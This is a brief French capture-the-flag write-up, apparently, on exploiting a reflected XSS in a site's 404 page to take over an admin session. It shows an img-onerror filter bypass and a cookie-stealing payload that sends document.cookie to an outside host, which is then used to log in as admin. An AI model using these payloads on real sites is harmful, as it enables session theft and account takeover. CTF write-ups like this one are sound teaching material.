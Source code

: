 En regardant de plus près le site nous observons un forumaire à envoyer à l'admin, on peut donc se douter qu'il peut s'agir d'une XSS.
En allant voir la apge de l'erreur 404 le site nous affiche le nom de la page qui n'existe pas, et si nous mettions du code javascript pour qu'il execute en voulant l'afficher sur la page d'erreur ?
On essaye avec un simple <script>alert()</script> mais le site le détecte.
On essaye alors avec <img src=x onerror=alert()>. BINGO ça marche !!!
C'est partit pour faire une redirection <img src= onerror="document.location'siteweb.com?cookie='+document.cookie">, on encode le tout en URL encode
On attend et le cookie est là, on se connect avec en tant qu'admin et on flag